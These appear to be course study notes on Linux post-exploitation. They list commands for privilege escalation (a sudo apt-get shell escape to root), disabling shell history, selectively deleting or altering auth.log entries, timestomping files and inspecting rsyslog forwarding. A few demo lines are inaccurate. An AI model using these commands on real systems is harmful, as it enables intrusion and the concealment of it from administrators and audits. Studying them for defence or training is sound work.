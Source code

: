 To find files and directories that you have the ability to write to, use the command:
find / -type f -writable -o -type d -writable 2>/dev/null

demo: find / -type f -o -type d -perm /2 2>/dev/null (find writable files)
demo: find / -type d -perm /2 2>/dev/null (just finds writable directories)

**Dot '.' in PATH**
echo $PATH

**Vulnerable Software and Services**

**Persistence**

**Adding or Hijacking a User Account**

**Covering your tracks**
Artifacts - anything youll leave behind.
logs/users/opening files etc.
unset HISTFILE

Check init type -> ps -p 1

**Logs for Covering Tracks** -> run ls -latr for these guys.
logs typically housed in /var/log & useful logs:       
auth.log/secure - Logins/authentications
lastlog - Each users' last successful login time
btmp - Bad login attempts
sulog - Usage of SU command
utmp - Currently logged in users (W command)
wtmp - Permanent record on user on/off

**Cleaning The Logs**
Before we start cleaning, save the INODE!
Affect on the inode of using mv VS cp VS cat
Know what we are removing (Entry times? IP? Whole file? Etc.)

**Cleaning The Logs (Precise)**
GREP (remove):
    egrep -v '10:49*| 15:15:15' auth.log > auth.log2; cat auth.log2 > auth.log; rm auth.log2

SED (replace):
    cat auth.log > auth.log2; sed -i 's/10.16.10.93/136.132.1.1/g' auth.log2; cat auth.log2 > auth.log

**Timestomp (Nix)**
touch -c -t 201603051015 1.txt   # Explicit
touch -r 3.txt 1.txt    # Reference

**Remote Logging**
Main one is RSYSLOG -> check the config file in order to indentify where logs are being sent, and which ones are being sent.

Rsyslog -> newer rsyslog references /etc/rsyslog.d/* for settings/rules
older version only uses /etc/rsyslog.conf
ex:
    kern.*                                                # All kernel messages, all severities
    mail.crit
    cron.!info,!debug
    *.*  @192.168.10.254:514     (1 @ = udp, 2 @@'s = tcp)                       # Old format
    *.* action(type="omfwd" target="192.168.10.254" port="514" protocol="udp")   # New format
    #mail.*
demo for linux exploitation
check what you can run:
    sudo -l 
we see that we can run apt-get
    run that against GTFOBins
it shows us it can be used to get a shell:
    sudo apt-get changelog apt -> !/bin/sh to get ya shell.
whoami -> root
id -> uid=o (root) gid=0(root) groups=0(root)
